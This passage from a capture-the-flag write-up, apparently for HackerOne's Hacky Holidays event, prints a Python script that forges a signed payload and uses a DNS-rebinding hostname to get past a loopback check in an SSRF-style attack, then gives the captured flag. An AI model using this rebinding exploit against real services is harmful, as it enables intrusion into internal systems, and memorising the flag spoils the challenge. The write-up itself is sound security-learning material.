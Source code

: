 ```
import hashlib,requests,base64,json
import urllib.parse
import webbrowser
import time

if __name__ == "__main__":
	while True:
		ip = "470631266f2a4f108432eff944f33ed6.gel0.space"
		bytes1 = str.encode("mrgrinch463{}".format(ip))
		hash1 = hashlib.md5(bytes1).hexdigest()
		print("[*] Hash is {}".format(hash1))
		payload = {"target":ip,"hash":hash1}
		payload_str = json.dumps(payload)
		payload1 = base64.b64encode(str.encode(payload_str))
		print(payload1)
		payload1_1 = {'payload':payload1}
		payload2 = urllib.parse.urlencode(payload1_1,safe=':+') 
		burp0_url = "https://hackyholidays.h1ctf.com:443/attack-box/launch"
		burp0_cookies = {"attackbox": "d09d508e78f3975e0199a5e91dde9687"}
		burp0_headers = {"Connection": "close", "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://hackyholidays.h1ctf.com/attack-box", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5"}
		r = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,params=payload2,allow_redirects=False)
		url = r.headers['Location']
		webbrowser.open_new("https://hackyholidays.h1ctf.com"+url)
		time.sleep(15)
```

However, when trying to put loopback values as target value, the server returned an error message.

{F1140400}

I tried with some bypass (already common for SSRF attacks) but they were not successful. Afterwards, I tried to perform a DNS Rebinding attack to bypass the local IP address check, by putting the 470631266f2a4f108432eff944f33ed6.gel0.space hostname inside the script.
The webserver redirected me on the final competition webpage containing the flag.

{F1140422}

flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}

## Impact

N/A

## Attachments
- image1.png
- image2.png
- image3.png
- image4.png
- image5.png
- image6.png
- image7.png
- image8.png
- image9.png
- image10.png
- image11.png
- image12.png